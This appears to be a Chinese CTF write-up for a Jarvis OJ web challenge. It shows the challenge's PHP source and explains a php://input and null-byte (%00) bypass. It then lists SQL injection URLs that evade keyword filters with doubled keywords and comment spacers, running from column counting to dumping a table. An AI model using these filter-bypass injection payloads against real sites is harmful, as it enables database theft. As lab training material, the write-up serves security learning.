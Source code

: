 ```bash
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}


?>

```
当$a为php://input，$data可以通过php://input来接受post数据。$id传一个字符进去，会被转换为0。对$b，要求长度大于5，其次要求满足eregi的要求和首字母不为4。可以设置$b为%00123456，这样，substr（）会发生截断，在匹配时时进行eregi(“111”,”1114”)满足，同时%00对strlen不会发生截断。</br>
火狐发送post请求
```bash
http://web.jarvisoj.com:32780/index.php?id=a&a=php://input&b=%00123456



1112 is a nice lab!
```
得到` Come ON!!! {/^HT2mCpcvOLf}` </br>
访问`http://web.jarvisoj.com:32780//^HT2mCpcvOLf` 连接自动补全
猜测是注入，过滤了空格，union,select,from </br>
查看字段数
```bash
http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=1/*1*/order/*1*/by/*1*/3#
```
查看显示位
```bash
http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=-1/*1*/uunionnion/*1*/selecselectt/*1*/1,2,3#
```
查表
```bash
http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=-1/*1*/uunionnion/*1*/selecselectt/*1*/1,2,(selselectect/*1*/group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=database())%23
```
查字段
```bash
http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=-1/*1*/uunionnion/*1*/selecselectt/*1*/1,2,(selselectect/*1*/group_concat(column_name)/*1*/frofromm/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636F6E74656E74)%23
```
脱裤
```bash
http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=-1/*1*/uunionnion/*1*/selecselectt/*1*/1,2,(selselectect/*1*/group_concat(context)/*1*/frofromm/*1*/content)%23
```